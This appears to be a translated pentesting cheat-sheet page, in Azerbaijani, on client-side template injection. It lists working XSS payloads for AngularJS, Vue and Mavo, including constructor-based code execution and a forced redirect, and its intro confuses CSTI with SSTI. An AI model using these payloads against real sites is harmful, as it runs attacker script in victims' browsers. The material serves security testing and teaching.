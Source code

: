 ```yaml
---
title: Client Side Template Injection (CSTI)
---
```


Bu, Server Side Template Injection kimidir, lakin müştəridə. CSTI sizə uzaq serverdə kodu icra etməyə icazə verə bilər, CSTI qurbanda ixtiyari JavaScript kodunu icra etməyə icazə verə bilər.

Bu zəifliyi yoxlamaq üsulu CSTI vəziyyətində olduğu kimi çox oxşardır, interpreter ikiqat düymələr arasında nəyinsə yerinə yetirilməsini gözləyəcək və onu icra edəcək. Məsələn, _\{\{ 7-7 \}\}_ kimi bir şey istifadə edərək, əgər server həssasdırsa, 0, yoxsa, orijinalı görəcəksiniz: _\{\{ 7-7 \}\}_

### AngularJS

AngularJS, _ng-app_ atributunu (həmçinin AngularJS direktivi kimi tanınır) ehtiva edən HTML qovşaqlarının məzmununu skan edən məşhur JavaScript kitabxanasıdır. HTML koduna direktiv əlavə edildikdə, siz JavaScript ifadələrini ikiqat əyri mötərizə içərisində icra edə bilərsiniz.

Məsələn, əgər daxiletməniz HTML-nin gövdəsində əks olunursa və gövdə ng-app ilə müəyyən edilirsə: _\<body ng-app\>_

Siz gövdəyə əlavə edilən əyri mötərizələrdən istifadə edərək ixtiyari JavaScript kodunu icra edə bilərsiniz:

```javascript
{{$on.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}
<input ng-focus=$event.view.alert('XSS')>
<!-- Google Research - AngularJS -->
```

```html
<div ng-app ng-csp>
  <textarea
    autofocus
    ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"
  ></textarea>
</div>
```

### VueJS

```html
<!-- Google Research - Vue.js-->
">
<div
  v-html="''.constructor.constructor('d=document;d.location.hash.match(\'x1\') ? `` : d.location=`//localhost/mH`')()"
>
  aaa
</div>
```

### V3

```javascript
{
  {
    _openBlock.constructor("alert(1)")();
  }
}
```

### V2

```javascript
{
  {
    constructor.constructor("alert(1)")();
  }
}
```

### Mavo

```html
[7*7]
[(1,alert)(1)]
<div mv-expressions="{{ }}">{{top.alert(1)}}</div>
[self.alert(1)]
javascript:alert(1)%252f%252f..%252fcss-images
[Omglol mod 1 mod self.alert (1) andlol]
[''=''or self.alert(lol)]
<a data-mv-if='1 or self.alert(1)'>test</a>
<div data-mv-expressions="lolx lolx">lolxself.alert('lol')lolx</div>
<a href=[javascript&':alert(1)']>test</a>
[self.alert(1)mod1]
```
